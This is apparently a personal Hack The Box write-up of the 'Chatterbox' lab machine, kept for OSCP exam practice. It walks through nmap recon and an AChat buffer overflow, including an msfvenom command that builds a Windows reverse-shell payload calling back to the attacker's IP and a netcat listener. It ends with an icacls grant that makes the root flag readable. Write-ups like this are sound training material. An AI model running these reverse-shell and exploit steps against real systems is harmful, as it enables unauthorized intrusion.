

**Start 19:32 24-08**

---
```
10.10.10.74
```
## Recon

==Nmap==
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.74                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 18:33 IST
Nmap scan report for 10.10.10.74
Host is up (0.088s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 2.71 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -T5 -vvvv -p- 10.10.10.74
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 18:33 IST
Nmap scan report for 10.10.10.74
Host is up, received conn-refused (0.086s latency).
Scanned at 2024-08-24 18:33:31 IST for 528s
Not shown: 65030 closed tcp ports (conn-refused), 494 filtered tcp ports (no-response)
PORT      STATE SERVICE      REASON  VERSION
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         syn-ack AChat chat system httpd
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp  open  achat        syn-ack AChat chat system
49152/tcp open  msrpc        syn-ack Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-08-24T18:42:55-04:00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38735/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 57348/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 64306/udp): CLEAN (Timeout)
|   Check 4 (port 41545/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 6h20m43s, deviation: 2h18m35s, median: 5h00m42s
| smb2-time: 
|   date: 2024-08-24T22:42:53
|_  start_date: 2024-08-24T22:32:43
```

I notice a port I haven't seen right away: `9256/TCP - AChat`. Apparently this is some kind of chat service.


## 9256/TCP - AChat

After some digging around I found that there's a `buffer overflow` vulnerability for `AChat 0.150`:


We can manually set up this exploit.

## Exploitation

==Foothold==
Using the above script I found I modified it to satisfy my needs:
```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=80 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

I then grabbed the outputted `shellcode` and replaced the old shellcode with the new one in the `exploit`. I also modified the `server_address` variable and got to running:


```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 80  
listening on [any] 80 ...


┌──(kali㉿kali)-[~/Downloads]
└─$ python2 36025.py 
---->{P00F}!

# For some reason it just did not work with python3 so I had to use 2 instead.
```

After many tries it finally worked:


==user.txt==
As always we head to `\alfred\Desktop` where we find the flag:

```powershell
C:\Users\Alfred\Desktop>type user.txt
type user.txt
178d1a3a68c352aea0188d8e7ff5f559
```


## Privilege Escalation

==OS Info==
I started of by running `systeminfo` and found that there were over 100 hotfixes for this version, which means that most vulnerabilities will probably have been patched. Nonetheless:

```powershell
C:\Users\Alfred\Desktop>systeminfo
systeminfo

Host Name:                 CHATTERBOX
OS Name:                   Microsoft Windows 7 Professional 
OS Version:                6.1.7601 Service Pack 1 Build 7601
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00371-222-9819843-86663
Original Install Date:     12/10/2017, 9:18:19 AM
System Boot Time:          8/24/2024, 6:32:35 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 11/12/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,549 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,626 MB
Virtual Memory: In Use:    469 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\CHATTERBOX
```

We see that we're working with a `Windows 7 Professional` system, as we already knew from our `nmap` scan. 

==icacls==
I quickly found out that I did not actually have to get `system privileges` as I already have access to the directory, I just don't have `read access`:



This means I can just change that by using the `icacls` command:

```powershell
icacls root.txt /grant alfred:F 
```


This is another way of getting [escalated read access](Windows%20Privilege%20Escalation.md#File%20&Directory%20Permissions#Misconfigured%20File%20Permissions) on certain files:

```powershell
C:\Users\Administrator\Desktop>type root.txt
type root.txt
9fb9f3d65b188768d7346196f620e9c8
```


---

**Finished 22:26 24-08**

[^Links]: [[Hack The Box]] [[OSCP Prep]]

#Shellcode 
